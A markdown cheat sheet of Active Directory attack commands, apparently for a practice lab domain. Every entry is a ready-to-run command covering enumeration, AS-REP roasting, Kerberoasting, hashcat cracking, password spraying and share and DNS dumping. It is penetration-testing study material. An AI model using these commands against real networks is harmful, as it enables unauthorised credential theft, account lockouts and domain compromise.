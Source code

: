 - Recon with cme  
  ```cme smb 192.168.56.1/24```

- Find DC ip  
  ```nslookup -type=srv _ldap._tcp.dc._msdcs.//DOMAIN```

- Setup Kerberos  
  ```sudo apt install krb5-user```

- Get a TGT for a user  
  ```getTGT.py DOMAIN/USER:PASS```

- Enumerate DC’s anonymously
  - cme  
  `cme smb 192.168.56.11 --users --pass-pol`  
  - enum4linux  
  `enum4linux 192.168.56.11`
  - rpc call  
  ```bash
        rpcclient -U "DOMAIN\\" 192.168.56.11 -N`  
            > enumdomusers
            > enumdomgroups

        net rpc group members 'Domain Users' -W 'DOMAIN' -I '192.168.56.11' -U '%'
  ```
  - nmap  
  `nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN',userdb=users.txt" 192.168.56.10`

- List guest access on shares
  `cme smb 192.168.56.10-23 -u 'a' -p '' --shares`

- ASREP - roasting
  - Get hash  
    `GetNPUsers.py north.sevenkingdoms.local/ -no-pass -usersfile users.txt`
  - Brute  
    `hashcat -m 18200 asrephash /usr/share/wordlists/rockyou.txt`

- Password Spray (user=pass)  
  be carreful you can lock accounts !
```
    cme smb 192.168.56.11 -u users.txt -p users.txt --no-bruteforce
    sprayhound -U users.txt -d DOMAIN -dc 192.168.56.11 --lower
```

- User listing
  - Impacket  
  `GetADUsers.py -all DOMAIN/USER:PASS `
  - LDAP  
  `ldapsearch -H ldap://192.168.56.11 -D "USER@DOMAIN" -w PASS -b 'DC=DOMAIN,DC=DOMAIN,DC=DOMAIN' "(&(objectCategory=person)(objectClass=user))" |grep 'distinguishedName:'`

- Kerberoasting
  - Find users with SPN  
    - with Impacket  
  `GetUserSPNs.py -request -dc-ip 192.168.56.11 DOOMAIN/USER:PASS -outputfile kerberoasting.hashes`
    - with cme  
    `cme ldap 192.168.56.11 -u USER -p 'PASS' -d DOMAIN --kerberoasting KERBEROASTING`
  - Brute  
  `hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force`

- Share enum  
`cme smb 192.168.56.10-23 -u USER -p PASS -d DOMAIN --shares`

- DNS dump  
`adidnsdump -u 'DOMAIN\USER' -p 'PASS' DOMAIN`